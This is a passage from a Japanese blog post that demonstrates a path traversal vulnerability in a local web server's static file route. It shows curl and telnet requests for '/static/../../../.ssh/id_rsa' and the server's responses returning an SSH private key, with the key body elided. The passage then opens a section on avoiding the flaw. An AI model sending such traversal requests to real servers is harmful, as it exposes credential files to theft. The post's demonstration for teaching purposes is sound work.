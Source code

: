 `..`を含んだパスをリクエストしてみます。(実行した場所によって`..`の数は変わるので適宜調整してみてください)

``` plain
$ curl -v http://localhost:3000/static/../../../.ssh/id_rsa
* About to connect() to localhost port 3000 (#0)
*   Trying ::1... connected
* Connected to localhost (::1) port 3000 (#0)
> GET /static/../../../.ssh/id_rsa HTTP/1.1
> User-Agent: curl/7.19.7 (x86_64-redhat-linux-gnu) libcurl/7.19.7 NSS/3.19.1 Basic ECC zlib/1.2.3 libidn/1.18 libssh2/1.4.2
> Host: localhost:3000
> Accept: */*
>
< HTTP/1.1 200 OK
< Accept-Ranges: bytes
< Content-Length: 1679
< Content-Type: text/plain; charset=utf-8
< Last-Modified: Fri, 13 Jun 2014 04:57:05 GMT
< Date: Tue, 12 Apr 2016 17:53:19 GMT
<
-----BEGIN RSA PRIVATE KEY-----
(中略)
-----END RSA PRIVATE KEY-----
* Connection #0 to host localhost left intact
* Closing connection #0
```

macのcurlで試したらクライアント側で相対パスを解決した状態でリクエストが飛んでしまって上手く行きませんでした。
オプションで外す方法がよくわかなかったので、`telnet`で叩いてみた例も載せておきます。

``` plain
$ telnet localhost 3000
Trying ::1...
Connected to localhost.
Escape character is '^]'.
GET /static/../../../.ssh/id_rsa HTTP/1.0

HTTP/1.0 200 OK
Accept-Ranges: bytes
Content-Length: 1679
Content-Type: text/plain; charset=utf-8
Last-Modified: Fri, 13 Jun 2014 04:57:05 GMT
Date: Tue, 12 Apr 2016 18:02:56 GMT

-----BEGIN RSA PRIVATE KEY-----
(中略)
-----END RSA PRIVATE KEY-----
Connection closed by foreign host.
```

ああ、僕の秘密鍵が・・・。


## 脆弱性を回避する
